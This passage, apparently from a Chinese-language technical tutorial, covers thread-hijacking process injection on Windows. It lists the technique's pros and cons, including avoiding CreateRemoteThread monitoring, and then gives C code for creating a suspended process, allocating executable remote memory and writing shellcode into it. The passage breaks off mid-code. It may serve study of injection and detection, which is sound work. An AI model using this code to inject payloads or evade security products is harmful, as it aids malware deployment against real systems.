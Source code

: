 4. **绕过部分监控**
   - 不使用 CreateRemoteThread API
   - 执行流程更接近正常的线程调度

### ❌ 劣势

1. **需要线程句柄**
   - 必须有目标线程的 THREAD_SET_CONTEXT 权限
   - 对于受保护进程可能无法获取

2. **可能破坏线程状态**
   - 修改 RIP/EIP 后，原线程的执行流程被破坏
   - 如果 shellcode 不恢复上下文，线程可能崩溃

3. **容易被检测**
   - SetThreadContext 是一个敏感 API
   - 安全产品通常监控线程上下文修改

4. **平台相关**
   - x86 和 x64 的 CONTEXT 结构不同
   - 需要针对不同架构编写代码

## 实现步骤

### 步骤 1: 创建挂起的进程

```c
STARTUPINFOA si = {0};
PROCESS_INFORMATION pi = {0};
si.cb = sizeof(si);

CreateProcessA(
    NULL,
    (LPSTR)targetPath,
    NULL,
    NULL,
    FALSE,
    CREATE_SUSPENDED | CREATE_NEW_CONSOLE,  // 创建挂起的进程
    NULL,
    NULL,
    &si,
    &pi
);
```

**关键点：**
- `CREATE_SUSPENDED`: 进程的主线程以挂起状态创建
- 返回的 `pi.hThread` 是主线程句柄
- 此时线程尚未执行任何代码

### 步骤 2-3: 分配内存并写入 Shellcode

```c
// 分配远程内存
LPVOID remoteMemory = VirtualAllocEx(
    pi.hProcess,
    NULL,
    shellcode_size,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);

// 写入 shellcode
SIZE_T bytesWritten;
WriteProcessMemory(
    pi.hProcess,
```